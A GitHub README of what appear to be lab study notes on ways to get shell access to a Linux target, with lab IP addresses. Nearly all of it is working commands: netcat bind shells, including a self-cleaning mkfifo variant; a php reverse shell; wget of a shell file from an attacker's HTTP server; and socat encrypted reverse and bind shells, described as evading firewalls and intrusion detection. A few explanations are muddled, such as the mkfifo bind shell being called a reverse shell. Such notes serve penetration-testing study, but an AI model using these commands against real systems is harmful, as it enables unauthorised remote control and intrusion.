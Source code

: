 # Various-process-of-getting-shell-access
Here We'll discuss how to get a shell in multiple ways -->

## For-Linuc-Remote-PC:

First assume your **ATTACK/HACKER PC IP** is **10.10.201.217** & your **REMOTE/ATTACKING/TARGET PC IP** is **10.10.152.101**

### _**Type-1: Simple bind shell using netcat**_

This is the easiest process. Assume you already has SSH ACCESS and netcat needs to be installed on both the devices.

1. Log in to Remote pc using ssh ID and pass. then type the below command in remote pc terminal-

    <pre><code><b>nc -lvnp 4000 -e /bin/bash</b></code></pre> 
   
   This will create a Bind shell in remote pc and it starts looking for any conenction on it's 4000 port

3. Now in attack pc terminal type
   
   <pre><code><b>nc 10.10.152.101 4000</b></code></pre>

this will connect you to remote pc shell using 4000 port

INSTEAD of above **method-1's point 1** you can use **below command in remote pc** which will help you to **delete the execution files and details ones the job is done** -

   <pre><code><b>mkfifo /tmp/f; nc -lvnp 1234 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f</b></code></pre>  

   > Here's what each part of the command does:

   > **mkfifo /tmp/f:** Creates a **pipe named f** in **tmp** folder with **mkfifo** command. This is used for passing data between processes. **FIFO** means **first in** & **First out**

   > **nc -lvnp 1234 < /tmp/f:** Starts a netcat listener **(nc)** on port **1234** and reads input from the named pipe **/tmp/f**. When a connection is made, netcat pipes the input/output to /bin/sh, effectively spawning a shell.

   > **| /bin/sh >/tmp/f 2>&1**: This pipes the output of netcat to **/bin/sh**, which **starts a shell**. The shell's input and output are redirected to the named pipe **/tmp/f**. This effectively creates a reverse shell, where any commands entered on the attacking machine are executed on the target machine..

   > **rm /tmp/f**: Finally, this command removes the named pipe once the shell is closed, cleaning up after the operation

### _Type 2: using php-reverse-shell_ 
Assume you have uploaded a revershe shell file to the vulnerable web server by any means. Assume the file name is "shell.php" and it's in /var/www/html folder of 10.10.152.101 ip. Activate this file by typing below command in your browser in your attack machine

 <pre><code><b> http://10.10.152.101/shell.php</b></code></pre> 

(you'll see your browser starts loading and will become unresponsive, which means the shell has been activated)

Now try the below command in your attacking machine terminal

 <pre><code><b> nc -lvnp 1234  </b></code></pre> 

here the port number is the port number which you mentioned in your shell.php file

you can create the shell file from your kali linux /usr/share/webshells folder or you can use https://www.revshells.com/ or https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#summary to generate and download the file

### _Type 3: by using temporary webserver_ 
If somehow you have access to remote pc from before fro time being then for further and future access you can upload the reverse shell directly to the remote pc. 

In this process first create the reverse shell file, then in the same directory type the below command to start a http server on any port

 <pre><code><b> python3 -m http.server 8000 </b></code></pre> 

it means a temporay http server has been created using python on port 8000

then from remote pc download the file from attackers pc using the below command -

 <pre><code><b>wget http://attacker-pc-ip:8000/path-to-shell-file</b></code></pre> 

then after downloading it in remote pc, move it to /var/www/html folder or any other folder which you can access globally from anywhere. after that follow type 2 procedure to access later

## _USING SOCAT-_
SOCAT creates encrypted shell which is very useful to evade IDEs and other firewalls . But for that both attacker and remote machine needs to have socat installed in it.
After gaining access by following above processes you can transfer the socat binary from your local machine to the target machine (with IP address **10.10.152.101**)

 <pre><code><b>scp /path/to/socat user@10.10.152.101:/path/to/destination</b></code></pre>  

(usually socat path is **/usr/bin/socat** or you can use which socat to check the path)

for socat you need user access otherwise it'll become very tough to use SOCAT.

## _Create ENCRYPTED SHELL using SOCAT:_

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

 <pre><code><b>openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt</b></code></pre> 

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly. 

We then need to merge the two created files into a single `.pem` file:

<pre><code><b>cat shell.key shell.crt > shell.pem</b></code></pre>

Now, when we set up our reverse shell listener, we use:

<pre><code><b>socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -</b></code></pre> 

This sets up an OPENSSL listener using our generated certificate. `verify=0`
 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate *must* be used on whichever device is listening.

 **To connect back, we would use:**
 
<pre><code><b>socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash</b></code></pre>  

The same technique would apply for a **bind shell:**

**Target:**

<pre><code><b>socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes</b></code></pre> 

**Attacker:**

<pre><code><b> socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -</b></code></pre> 

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

![UbOPN9q](https://github.com/Tony-Edward-Stark/various-process-of-getting-shell-access/assets/112267976/c36f2e52-e2f5-4b8f-8fa2-53fa8e6e5520)


## _EXAMPLE_

What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port **53**, and a PEM file called "**encrypt.pem**"

<pre><code><b>socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:tty,raw,echo=0 - </b></code></pre>  

If your IP is **10.10.10.5**, what syntax would you use to connect back to this listener?

<pre><code><b>socat OPENSSL:10.10.10.5:53,EXEC:"bash -li",pty,stderr,sigint,setsid,sane </b></code></pre>  




